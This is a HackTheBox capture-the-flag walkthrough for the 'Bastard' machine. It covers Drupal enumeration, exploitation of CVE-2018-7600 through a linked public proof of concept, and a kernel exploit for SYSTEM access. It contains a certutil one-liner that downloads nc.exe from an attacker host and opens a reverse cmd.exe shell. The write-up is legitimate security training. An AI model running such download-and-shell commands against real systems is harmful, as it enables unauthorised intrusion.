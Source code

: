 ```yaml
---
layout: page
title: Bastard - HackTheBox
permalink: /posts/ctf/hackthebox/bastard.html
---
```


# Bastard - HackTheBox
----

First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.9`

![image](https://user-images.githubusercontent.com/50459517/109316892-b0262880-7811-11eb-9771-9817052562f6.png)

We have a few ports open but port 80 looks the most interesting.  Lets check it out.

![image](https://user-images.githubusercontent.com/50459517/109316932-b9af9080-7811-11eb-9e52-a28ac443c78b.png)

Looks like we have a Drupal page running, I like to run **doopescan** when I come across a Drupal site first but keep in mind the scan takes a while to finish.  I did some default passwords and basic enumeration while waiting but didn't find much so decided to wait for the results from **doopescan**

`droopescan scan drupal -u http://10.10.10.9`

![image](https://user-images.githubusercontent.com/50459517/109316957-c338f880-7811-11eb-8bb7-7defbaf4801a.png)

Now that we have a version, lets research and see if we can find a public exploit available.  I found an exploit for RCE in the Services module that I started to try however found another vulnerability in CVE-2018-7600 that seemed to be an easier path. Here is the Service module exploit.

[](https://www.exploit-db.com/exploits/41564)

Here is the PoC I used for CVE-2018-7600.  

[pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

Pretty straight forward exploit, Lets try it out.

![image](https://user-images.githubusercontent.com/50459517/109316992-cd5af700-7811-11eb-9bc0-e826f9cbf00c.png)

Looks like we have code execution!  Lets see if we can get a shell now.  I hosted up **nc.exe** and downloaded/executed it with this one liner to get a shell on the machine.

`certutil -urlcache -f [http://10.10.14.31/nc.exe](http://10.10.14.31/nc.exe) nc.exe & nc.exe -e cmd.exe 10.10.14.31 53`

![image](https://user-images.githubusercontent.com/50459517/109317012-d64bc880-7811-11eb-970b-5802dfbd5d4f.png)

![image](https://user-images.githubusercontent.com/50459517/109317029-de0b6d00-7811-11eb-9574-4e6da03539ad.png)

We are in.  I copied WinPEAS over but couldn't get the executable to run, probably a .NET issue.  I ran the .bat version but didn't find much so decided to run WinPrivChecker and found a number of possible kernel exploits.  I like abatchy17's GitHub collection of kernel exploits found here..

[abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)

![image](https://user-images.githubusercontent.com/50459517/109317053-e794d500-7811-11eb-9073-7a842cf70d9c.png)

I went through some of these and found that MS10-059.exe worked great for getting a reverse shell as System!

![image](https://user-images.githubusercontent.com/50459517/109317082-f11e3d00-7811-11eb-95bb-968dbf721bb1.png)

![image](https://user-images.githubusercontent.com/50459517/109317099-f8dde180-7811-11eb-8d41-4ce0566a8aee.png)
